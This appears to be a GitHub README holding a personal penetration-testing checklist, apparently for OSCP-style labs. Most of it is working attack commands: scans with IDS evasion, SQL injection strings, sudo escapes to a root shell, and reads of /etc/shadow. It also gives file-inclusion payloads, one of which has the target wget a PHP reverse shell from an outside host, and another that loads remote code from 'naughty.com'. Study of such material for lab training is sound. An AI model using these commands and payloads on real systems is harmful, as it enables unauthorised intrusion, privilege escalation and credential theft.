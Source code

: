 <h1>PWNAGE CHECKLIST</h1>
<h2>Basic things I forget to check.</h2>

- establish vpn connectivity / confirm connectivity
- check my ip
- Scan target network
  - basic ping sweep on large range
  - select target – make note of ip in evernote
  - document everything
- Wireshark
  - Set to specific interface
  - Check how requests being handled
  - Htmlentities / escaping / str replace
  - tcp connect success or resets
  - Responses from cli connect attempts
  - Filtering
        - ``` ip-addr==192.192.192.192 ```
- Indepth nmap scan
  - ``` nmap -sC -sV -O -A -T2/3 IP-TARGET -v ```
  - SAFE SCRIPTS, SERVICE DISCOVERY, OS DETECTION, SLOWER SCAN (TO BE SAFE), VERBOSE
  - ``` nmap -sU -T3 Ip-target -v ```
  - ```--source-port 100 ``` just to try evade, change to well-known port number 
- Port 80 / 443 open
  - ``` nikto -host ip-target -evasion 8 ``` (Many others check -H)
  - ``` dirb http://Ip-target -r ``` **Different wordlist perhaps**
  - Non-recursive to save time, then inspect further if necessary 
  - Try nmap ``` -–script=http-enum.nse ``` (others available)
  - Check site in browser (http/https)
   - Resolve host name if necessary (etc/hosts)
   - Cookies
   - GET / POST
   - Check source
    - Directories
    - Comments
    - Script links
    - Form methods
    - Login forms
     - Versions/names/brands etc
      - Basic sql injection
        -``` ‘or 1=1```
        -```union```
- Ports 139, 445
  - nmap enumerate if possible with scripts if nothing came up before. perhaps change scan speed to slower one
  - enum4linux
  - smbclient
    -```smbclient \\\\ip\\share```
   - try to connect to them to see if they are truly alive
   - Banner grabbing even if booted
   - ```nbtscan [ip-range]``` (https://highon.coffee/blog/nbtscan-cheat-sheet/)
   
- Port 22
  - Banner grabbing
    -```ssh root@192.192.192.192```
- Port 21
  - Banner grabbing
  -```ftp root@ip-target```
  - Try anonymous login
  - Set to BINARY for exe
  - PUT / DELETE 
  - Check for version numbers
  - use searchsploit / google for known vulns

<H2>Linux</H2>

- Low priv 
  - find writeable directories if /tmp or /dev/shm not available
    - ```find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \;```
  - netcat 
    -```>``` output to a file
    - ```nc -nv target-ip port < filename``` (send from kali)
  - upgrade linux shell
    - ```python -c “import pty; pty.spawn(‘/bin/bash’)”```
    - ctrl+z backgrounds the shell on local box
      - then type: 
        - ```ssty raw -echo```
        - ```fg```
        - ```reset```
        - if size is an issue type:
          - ```stty size``` (returns current window size)
          - ```stty -rows 48 -columns 120``` (eg size)
- Priv esc linux
  - try ```sudo su``` or ```sudo -l```
   - If ```find``` has sudo ```sudo find /home -exec sh -i \; ```
   - ```sudo zip exploit.zip exploit -T --unzip-command="python -c 'import pty; pty.spawn(\"/bin/sh\")'"``` (https://v3ded.github.io/ctf/zico2.html)
  - if these don’t work try get kernel and distro info to look for exploits
  - ```uname -ar```
  - ```cat /etc/issue```
  - ```cat /etc/*-release```
  - ```cat /etc/lsb-release```
  - ```cat /etc/redhat-release```
  - SUID
    - ```find / -perm -u=s -type f 2>/dev/null ```
  - Available programs/languages on host:
    - Perl,python etc
    - Nc,ncat,wget,curl
    - ```curl -o theFile http://IP:PORT/theFile```
    - ```curl ftp://ftp.domain.com --user username:password``` Access FTP server (Add file to end of domain to download)
    - ```wget http://IP:PORT/theFile -O theFile```
    - ```fetch -o theFile http://IP:PORT/theFile``` (FreeBSD)
  - Password Files
    - /etc/pwd.db 
    - /etc/spwd.db
    - /etc/shadow
    - /etc/passwd

<H2>Windows</H2>

- Priv esc
 - Still busy gathering info... Have this so far:
 - cacls C:\WINDOWS\system32\ - This displays permissions on folder & same for file eg: cacls test.txt
 - icacls for newer Windows versions (I think Vista upwards)

<H2>Getting In</H2>
- Remote file inclusion (https://sushant747.gitbooks.io/total-oscp-guide/remote_file_inclusion.html)
    - Similar to local file inclusion while not hosted on the target
    - Rarer than LFI due to php.ini needs to configured for it 
    - Requres unsanitised parameter:
      - ```$theFile = $_REQUEST[“file”];```
      - ```Include($theFile . “.php”);```
    - Now in browser:
      - http://192.192.192.192/index.php?page=http://naughty.com/badfile.txt
    - Badfile.txt:
      - ```<?php echo shell_exec("whoami");?>```

- LFI (https://highon.coffee/blog/lfi-cheat-sheet/)
  - Directory traversal
    - ```foo.php?file=../../../../../../../etc/passwd```
  - PHP ```expect:``` #Not enabled by default, uses expect wrapper to execute commands
    - http://127.0.0.1/fileincl/example1.php?page=expect://ls
  - PHP (POST request) ```php://input```
    - http://192.168.183.128/fileincl/example1.php?page= **php://input**
      - input can be: ```<? system('wget http://192.192.192.192/php-reverse-shell.php -O /var/www/shell.php');?>```
      - In browser: http://192.192.192.192/shell.php
  - PHP ```php://filter```
    - http://192.192.192.192/fileincl/example1.php?page= **php://filter/convert.base64-encode/resource=../../../../../etc/passwd**
    - Must decode the output from base64
  - /proc/self/environ (If you able to write there)
    - Manipulate ```User Agent``` in Burp
  - https://highon.coffee/blog/lfi-cheat-sheet/#fimap--phpinfo-exploit
    - Uses phpinfo() to write temporary files together with fimap
      
- WAF
  wafw00f http://example.com
  
- Transferring files
  - I prefer SimpleHTTPServer to see active transfers
  -  ```python -m SimpleHTTPServer 443``` 

**usefull links**
- https://netsec.ws/?p=331	- msfvenom,shells,tips
- https://medium.com/@hakluke/haklukes-ultimate-oscp-guide-part-3-practical-hacking-tips-and-tricks-c38486f5fc97
- https://sushant747.gitbooks.io/total-oscp-guide/connections.html
- http://www.fuzzysecurity.com/tutorials/16.html - Windows Priveledge Escalation tips
- https://payatu.com/guide-linux-privilege-escalation/ - Linux Privesc


